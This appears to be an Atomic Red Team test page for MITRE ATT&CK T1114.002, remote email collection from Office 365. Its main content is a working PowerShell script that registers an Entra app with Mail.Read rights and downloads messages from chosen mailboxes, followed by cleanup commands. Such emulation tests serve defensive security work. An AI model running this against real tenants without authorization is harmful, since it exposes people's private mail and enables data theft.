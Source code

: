 # T1114.002 - Email Collection: Remote Email Collection
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1114/002)
<blockquote>

Adversaries may target an Exchange server, Office 365, or Google Workspace to collect sensitive information. Adversaries may leverage a user's credentials and interact directly with the Exchange server to acquire information from within a network. Adversaries may also access externally facing Exchange services, Office 365, or Google Workspace to access email using credentials or access tokens. Tools such as [MailSniper](https://attack.mitre.org/software/S0413) can be used to automate searches for specific keywords.

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Office365 - Remote Mail Collected](#atomic-test-1---office365---remote-mail-collected)


<br/>

## Atomic Test #1 - Office365 - Remote Mail Collected
Create and register an entra application that downloads emails from a tenant's Office 365 mailboxes using the Microsoft Graph API app-only access. This can be used by an adversary to collect an organization's sensitive information.

**Supported Platforms:** Office-365


**auto_generated_guid:** 36657d95-d9d6-4fbf-8a31-f4085607bafd





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Full username (including @domain) of Entra user w/ AppRoleassignment.ReadWrite.All and Application.ReadWrite.All Scope (eg, Global Administrator Role) and sign-in method is password | string | |
| password | Entra user password | string | |
| 1st_target_mailbox | office-365 target_email_address | string | |
| 2nd_target_mailbox | office-365 target_email_address | string | |
| 3rd_target_mailbox | office-365 target_email_address | string | |


#### Attack Commands: Run with `powershell`! 


```powershell
$ss = ConvertTo-SecureString "#{password}" -AsPlainText -Force
$cred = New-Object PSCredential -ArgumentList '#{username}', $ss
$param = @{
    Credential = $cred
    Force      = $true
}
$null = Connect-AzAccount @param
$token = (Get-AzAccessToken -ResourceTypeName MSGraph -ErrorAction Stop).token
$cert = New-SelfSignedCertificate -Subject "CN=PowerShell Application" -CertStoreLocation "Cert:\CurrentUser\My" -KeyExportPolicy Exportable -KeySpec Signature -KeyLength 2048 -KeyAlgorithm RSA -HashAlgorithm SHA256
$reqResourceAccess = ( @{ "resourceAccess" = (@{"id"= "570282fd-fa5c-430d-a7fd-fc8dc98a9dca"; "type"= "Scope"}, @{ "id"= "7427e0e9-2fba-42fe-b0c0-848c9e6a8182"; "type"= "Scope"}, @{"id"= "37f7f235-527c-4136-accd-4a02d197296e"; "type"= "Scope"}, @{"id"= "14dad69e-099b-42c9-810b-d002981feec1"; "type"= "Scope"}, @{ "id"= "e1fe6dd8-ba31-4d61-89e7-88639da4683d"; "type"= "Scope"}, @{ "id"= "810c84a8-4a9e-49e6-bf7d-12d183f40d01"; "type"= "Role"}); "resourceAppId" = "00000003-0000-0000-c000-000000000000" })
connect-mggraph -AccessToken $token
$context = Get-MgContext       
$users = get-MgUser
$app = New-MgApplication -DisplayName "T1114.002 Atomic Test #1 - Office365 - Remote Email Collection" -RequiredResourceAccess $reqResourceAccess -Web @{ RedirectUris="http://localhost"; } -KeyCredentials @(@{ Type="AsymmetricX509Cert"; Usage="Verify"; Key=$cert.RawData })
New-MgServicePrincipal -AppId $app.appId -AdditionalProperties @{} | Out-Null
$resourceSPN = Get-MgServicePrincipal -Filter "AppId eq '$($app.AppId)'"
$graphApiApp = Get-MgServicePrincipal -Filter "DisplayName eq 'Microsoft Graph'"
$mailRole = $graphApiApp.AppRoles|Where-Object Value -Eq "Mail.Read"
New-MgServicePrincipalAppRoleAssignment -ServicePrincipalId $resourceSPN.Id -PrincipalId $resourceSPN.Id -ResourceId $graphApiApp.id -AppRoleId $mailRole.Id
$mailbox1 = "#{1st_target_mailbox}"
$mailbox2 = "#{2nd_target_mailbox}"
$mailbox3 = "#{3rd_target_mailbox}"
[System.Collections.ArrayList]$selectUsers = @()
foreach ($user in $users) {if (($user.Mail -eq $mailbox1) -Or ($user.Mail -eq $mailbox2) -Or ($user.Mail -eq $mailbox3)){$selectUsers.Add($user.id)}}
connect-mggraph -ClientId $app.AppId -TenantId $context.TenantId -CertificateName $cert.Subjectname.Name
foreach ($user in $selectUsers) { $url= "https://graph.microsoft.com/v1.0/users/$($user)/messages" ; Invoke-MgGraphRequest -Uri $url -Method GET -OutputType PSObject}
```

#### Cleanup Commands:
```powershell
connect-mggraph -Scopes AppRoleAssignment.ReadWrite.All,Application.ReadWrite.All,User.Read -NoWelcome
Remove-MgApplication $app.AppId
Remove-Item -Path Cert:\CurrentUser\My\$($cert.thumbprint) -DeleteKey
Disconnect-MgGraph
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Graph PowerShell SDK must be installed.
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-InstalledModule Microsoft.Graph
if (-not $RequiredModule) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module Microsoft.Graph -Scope CurrentUser
```
##### Description: Az.Accounts module must be installed.
##### Check Prereq Commands:
```powershell
$RequiredModule2 = Get-InstalledModule Az.Accounts
if (-not $RequiredModule2) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module Az.Accounts -Scope CurrentUser
```




<br/>
